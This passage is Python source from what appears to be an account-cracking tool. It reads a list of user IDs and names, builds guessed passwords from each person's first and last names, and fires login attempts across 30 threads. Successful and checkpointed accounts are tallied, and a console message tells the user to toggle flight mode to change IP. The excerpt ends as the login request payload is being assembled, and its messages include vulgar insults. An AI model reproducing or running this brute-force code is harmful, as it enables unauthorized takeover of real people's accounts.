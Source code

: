         else:
            p(' [â€¢] Wrong Select Hai Bhosdikay ')
            sp(1)
            self.methods_menu()

    def cracking(self):
        clear()
        logo()
        try:
            file = input(' [â€¢] Put File Path : ')
            id = open(file).read().splitlines()
            self.password_menu(id)
        except FileNotFoundError:
            p(' [X] File Path Wrong....')
            sp(2)
            self.cracking()

    def password_menu(self,id):
        clear()
        logo()
        p(' [â€¢] Enter Password Limit Between 1 to 20 (Max) ')
        try:
            plimit = int(input(' [â€¢] Put Limit : '))
            if plimit == '':
                plimit = 4
            elif plimit > 20:
                limit = 10
        except:
            plimit = 4
        clear();logo()
        print(' [â€¢] Example : first123,last1122,firstlast,last Etc ')
        for n in range(plimit):
            pwx.append(input(' [â€¢] Put Password %s : '%(n+1)))
        clear();logo()
        p(' [â€¢] Usmi Brute Has Been Started ')
        line()
        p(' [â€¢] Total Clone Accounts :  %s '%(len(id)))
        line()
        p(' [â€¢] Use Flight Mood On Bhsdk Ip Lol Ha ')
        line()
        with tpd(max_workers=30) as saqi:
            for user in id:
                uid,nm = user.split('|')
                if 'i' in method:
                    saqi.submit(self.method1,uid,nm,pwx)
                elif 'ii' in method:
                    saqi.submit(self.method2,uid,nm,pwx)
                elif 'iii' in method:
                    saqi.submit(self.method3,uid,nm,pwx)
        self.saved_results(ok,cp)

    def method1(self,uid,nm,pwx):
        try:
            global ok , cp , loop
            sys.stdout.write('\r [USMII-FIRE] %s | M1 OK/CP %s/%s '%(loop,len(ok),len(cp)));sys.stdout.flush()
            fn = nm.split(' ')[0]
            try:
                ln = nm.split(' ')[1]
            except:
                ln = fn
            for ps in pwx:
                pw = ps.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',nm).replace('name',nm.lower())
                data = {"adid": str(uuid.uuid4()),
"format": "json",